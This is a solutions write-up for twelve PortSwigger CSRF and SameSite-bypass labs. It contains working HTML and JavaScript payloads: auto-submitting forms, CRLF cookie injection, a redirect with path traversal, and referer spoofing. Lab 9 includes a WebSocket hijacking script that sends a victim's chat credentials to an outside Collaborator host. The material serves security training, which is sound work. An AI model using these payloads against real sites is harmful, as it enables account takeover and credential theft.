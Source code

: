 # Cross Site Request Forgery (CSRF)

## Lab 1: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

Login with the credentials `wiener:peter` and update the email by giving new email in email box.

Find the request in the `HTTP history` of proxy.

Click `Go to exploit server` in the lab window.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/63f4ed20-c2f3-49bc-9b7d-196de1dc4761)

In body section, give following HTML code:

      <form method="POST" action="https://0a03006704daa24e806f67c500b50039.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="wiener%40web-security-academy.net">
    </form>
    <script>
        document.forms[0].submit();
    </script>

* Right-click on the request and select `Engagement tools -> Generate CSRF PoC`. Enable the option to include an `auto-submit script` and click `Regenerate`.
* Copy the HTML code and paste it into the exploit server body code.
* Change the email parameter value.
* Deliver it to the victim.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a0cfa7ea-e6c1-47ae-a2cf-98a1b7320d09)

* Thus, the lab is solved.

## Lab 2: CSRF where token validation depends on request method

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

* Login with the credentials `wiener:peter` and update the email by giving new email in email box.
* Find the request in the `HTTP history` of proxy.
* Send the request to Burp Repeater and observe that if you change the value of the `csrf` parameter then the request is rejected.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/9da1a36f-073b-470d-9d65-ce89eda421fe)

* Use `Change request method` on the context menu to convert it into a `GET` request and observe that the CSRF token is no longer verified.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/adab6b53-a37c-4ffa-abc3-fe8a0ca9bce8)

* Right-click on the request, and from the context menu select `Engagement tools -> Generate CSRF PoC`. Enable the option to include an auto-submit script and click `Regenerate`.
* Copy the HTML code and paste it into the exploit server body code.
* Change the email parameter value.
* Deliver it to the victim.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a0cfa7ea-e6c1-47ae-a2cf-98a1b7320d09)

* Thus, the lab is solved.

## Lab 3: CSRF where token validation depends on token being present

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

### Sol :

* Login with the credentials `wiener:peter` and update the email by giving new email in email box.
* Find the request in the `HTTP history` of proxy.
* Delete the `csrf` parameter entirely and observe that the request is now accepted

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/8cb5f0ad-9fde-4f6d-ad1c-7903c83ac661)

* Right-click on the request, and from the context menu select `Engagement tools -> Generate CSRF PoC`. Enable the option to include an auto-submit script and click `Regenerate`
* Copy the HTML code and paste it into the exploit server body code.
* Change the email parameter value.
* Deliver it to the victim.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a0cfa7ea-e6c1-47ae-a2cf-98a1b7320d09)

* Thus, the lab is solved.

## Lab 4: CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

`wiener:peter`

`carlos:montoya`

### Sol :

* Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
* Make a note of the value of the CSRF token, then drop the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/0f190bd3-cc5f-43f3-96e6-ee10fb0df9d0)

* Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/5ffe4e23-f84c-4e84-83c9-1c34cfc17c0c)

* Observe that if we swap the CSRF token with the value from the other account, then the request is accepted.
* Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
* Change the email parameter value.
* Deliver it to the victim.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/9d6956f4-e465-4ab7-99d1-4c09614f68fc)

* Thus, the lab is solved.

## Lab 5: CSRF where token is tied to non-session cookie

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

`wiener:peter`

`carlos:montoya`

### Sol :

* Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/e4789ed9-928b-4b9f-8b4e-fd5e0786003b)

* Send the request to Burp Repeater and observe that changing the session cookie logs you out, but changing the `csrfKey` cookie merely results in the CSRF token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session.
* Open a private/incognito browser window, log in to your other account, and send a fresh update email request into Burp Repeater
* Observe that if we swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted.
  
![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/9cfe0cb0-da00-46bc-a31e-d6ee3e8e6659)

* Close the Repeater tab and incognito browser.
* Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
* Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab, ensuring that you include your CSRF token. The exploit should be created from the email change request
* Remove the auto-submit <script> block, and instead add the following code to inject the cookie by replacing the Lab ID and CSRF Key

      <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/be8a3130-1a69-4a03-b3b3-083454c202f4)

* Change the email address in your exploit so that it doesn't match your own.
* Store the exploit, then click `Deliver to victim` to solve the lab.

## Lab 6: CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

* Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history
* Send the request to Burp Repeater and observe that the value of the csrf body parameter is simply being validated by comparing it with the csrf cookie.
  
![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a30fc854-f006-4cd8-b6b8-5f888169534b)

* Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/7bf18124-03f4-437f-b241-933bb133a53a)

* Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab, ensuring that your CSRF token is set to "fake". The exploit should be created from the email change request.
* Remove the auto-submit `<script>` block and instead add the following code to inject the cookie and submit the form

      <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/b87a8f73-388b-412f-abf3-9bd5bec8c221)

* Change the email address in your exploit so that it doesn't match your own.
* Make sure that `csrf` value given as `fake`
* Store the exploit, then click `Deliver to victim` to solve the lab.
* Thus, the lab is solved.

## Lab 7: SameSite Lax bypass via method override

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

* Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history
* In Burp Repeater, right-click on the request and select Change request method. Burp automatically generates an equivalent `GET` request.
* Try overriding the method by adding the _method parameter to the query string:

      GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1

* Send the request. Observe that this seems to have been accepted by the server.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/ac0c7164-b8ff-4c6b-85a6-25a919213363)

* Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability 

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1255abfb-4ed8-459f-8006-9b1584072c1f)

* Store and view the exploit yourself. Confirm that this has successfully changed your email address on the target site.
* Deliver the exploit to the victim.
* Thus, the lab is solved.

## Lab 8: SameSite Strict bypass via client-side redirect

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

* Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history
* Try injecting a path traversal sequence so that the dynamically constructed redirect URL will point to your account page:

      /post/comment/confirmation?postId=1/../../my-account

* Observe that the browser normalizes this URL and successfully takes you to your account page. This confirms that you can use the `postId` parameter to elicit a `GET` request for an arbitrary endpoint on the target site.
* Send the POST /my-account/change-email request to Burp Repeater.
* In Burp Repeater, right-click on the request and select Change request method. Burp automatically generates an equivalent GET request.
* Give the below payload to the exploit server

      <script>
          document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
      </script>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/11d2dbec-bce4-4fc8-b446-63d88a9dfaae)

* Thus, the lab is solved.

## Lab 9: SameSite Strict bypass via sibling domain

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

### Sol :

* In Burp's browser, go to the live chat feature and send a few messages.
* In Burp, go to the Proxy > HTTP history tab and find the WebSocket handshake request. This should be the most recent GET /chat request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/2da85414-785a-498d-acf4-fd9f824a5452)

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/d604206a-3d43-4400-bf16-ed91d9d01956)

* Go to the exploit server and give the below payload:

      <script>
          var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
          ws.onopen = function() {
        ws.send("READY");
          };
          ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
          };
      </script>
* Deliver it to the vitim
* Check the Burp Collaborator response.
* Give the above payload to the `Decoder` and encode it into URL.
  
![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/5946e8d7-19d8-4af0-9ad6-6cab1bf459ee)

* Give the encoded URL as input to the below payload.

      <script>
          document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
      </script>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/4b9af243-3b48-44d2-8674-2d8695954764)

* See the response at the Burp Collaborator

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/854c2b03-5e82-41af-a122-a35965d7858b)

* We got the password for the user carlos
* Login with the password and lab is solved.

## Lab 10: SameSite Lax bypass via cookie refresh

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: wiener:peter

### Sol :

* Login with the given credentials and it redirects to the social page and continue to login.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/56d23783-99dc-4925-aeb1-4af3f24442d4)

* Update the email and send it to repeater and generate the CSRF PoC

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/130d191c-1ac9-4c85-9dd0-80ebd13f1df9)

* Go to exploit server
* Give the below payload

      <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
          <input type="hidden" name="email" value="pwned@portswigger.net">
      </form>
      <p>Click anywhere on the page</p>
      <script>
          window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
          }

          function changeEmail() {
        document.forms[0].submit();
          }
      </script>

* Deliver it to the victim

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/7a62c948-9bd4-48dd-9f18-a9cd7728929d)

* Thus, the lab is solved.

## Lab 11: CSRF where Referer validation depends on header being present

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

* Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
* Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/68117485-17bf-4051-a4db-49df61bdbbfc)

* Delete the Referer header entirely and observe that the request is now accepted

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/9b46bb25-db83-4888-a36e-c01dc594c6c6)

* Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Include the following HTML to suppress the Referer header:

      <meta name="referrer" content="no-referrer">

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/a4eb7a7c-c250-4d37-8740-21330977c19b)

* Deliver it to the victim and lab is solved.

## Lab 12: CSRF with broken Referer validation

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

### Sol :

* Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
* Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/68117485-17bf-4051-a4db-49df61bdbbfc)

* Give the below payload as Referer parameter value.

      Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/48588b6f-4eaa-4e3c-af7b-bd60a0f43eb8)

* Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.
* Create a CSRF proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab and host it on the exploit server. Edit the JavaScript so that the third argument of the history.pushState() function includes a query string with your lab instance URL as follows:

      history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")

* This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.
* If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

        Referrer-Policy: unsafe-url

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/6628727d-c597-44fa-a978-9685980eab8d)

* Thus, the lab is solved.
